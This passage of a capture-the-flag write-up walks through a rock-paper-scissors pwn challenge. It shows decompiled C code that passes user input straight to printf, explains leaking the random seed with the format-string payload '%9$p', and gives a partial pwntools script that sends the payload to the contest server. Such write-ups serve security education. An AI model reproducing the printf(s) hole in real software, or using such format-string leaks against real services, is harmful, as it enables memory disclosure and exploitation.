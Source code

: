 ```C
    return 1LL;
  }
  else
  {
    puts("You lost.");
    return 0LL;
  }
}

int main(){
  fd = open("/dev/urandom", 0);
    if ( fd < 0 )
    {
      printf("Opening /dev/urandom failed");
      exit(1);
    }
    read(fd, &buf, 4uLL);
    close(fd);
    srand(buf);
    printf("Enter your name: ");
    fgets(s, 20, stdin);
    printf("Hi ");
    printf(s);
    puts("Let's play some Rock Paper Scissors!");
    puts("If you beat me 50 times in a row I'll give you a special prize.");
    for ( i = 0; i <= 49; ++i )
    {
      if ( (unsigned __int8)rps() != 1 )
      {
        puts("You didn't beat me enough times. Too bad!");
        exit(1);
      }
    }
    win();
}
```

The program will prompt us for a name and print it using printf. There is a clear FSB vulnerability here. FSBs are a powerful primitive and can be used to perform arbitrary writes and reads, as well as easily leak stack data from the stack. Our goal is to win 50 times. The computer will read its seed from /dev/urandom and store it in the stack. With FSB, we can leak the value and predict the random numbers! After some trial and error, I noticed that the seed was stored at %9$p. I then used the ctypes library to use the srand and rand functions. Here is my final script:

```PY
from pwn import *
from ctypes import CDLL, c_char_p

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

p = remote("vsc.tf" , 3094)
p.recvuntil("name: ")

p.sendline("%9$p")


p.recvuntil("Hi ")

seed = int(p.recvn(10), 16)

libc.srand(seed)

print(hex(seed))

```